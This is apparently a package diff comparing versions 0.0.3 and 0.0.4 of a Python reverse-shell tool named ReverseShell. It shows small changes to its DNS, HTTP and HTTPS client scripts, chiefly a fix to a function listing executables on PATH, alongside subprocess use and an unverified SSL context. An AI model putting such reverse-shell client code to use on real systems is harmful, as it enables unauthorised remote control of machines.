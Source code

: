 ```diff
         ReverseShell._set = True
 
     def parse_data(self, data: bytes) -> str:
         """
         This function parses TCP data.
         """
```

### Comparing `ReverseShell-0.0.3/clients/shellclientdns.py` & `ReverseShell-0.0.4/clients/shellclientdns.py`

 * *Files identical despite different names*

### Comparing `ReverseShell-0.0.3/clients/shellclienthttp_advanced.py` & `ReverseShell-0.0.4/clients/shellclienthttp_advanced.py`

 * *Files 2% similar despite different names*

```diff
@@ -57,16 +57,17 @@
 from contextlib import suppress
 from subprocess import run, PIPE
 from os import getcwd, environ, listdir, name
 
 
 def get_executables():
     return [
-        listdir(directory)
+        file
         for directory in environ["PATH"].split(":" if name != "nt" else ";")
+        for file in listdir(directory)
         if exists(directory)
     ]
 
 
 format_ = b"POST / HTTP/1.0\r\nContent-Type: {type}\r\nHost: 127.0.0.1\r\nContent-Length: {length}\r\n\r\n"
 
 while True:
```

### Comparing `ReverseShell-0.0.3/clients/shellclienthttps_advanced.py` & `ReverseShell-0.0.4/clients/shellclienthttps_advanced.py`

 * *Files 2% similar despite different names*

```diff
@@ -58,16 +58,17 @@
 from subprocess import run, PIPE
 from ssl import _create_unverified_context
 from os import getcwd, environ, listdir, name
 
 
 def get_executables():
     return [
-        listdir(directory)
+        file
         for directory in environ["PATH"].split(":" if name != "nt" else ";")
+        for file in listdir(directory)
         if exists(directory)
     ]
 
 
```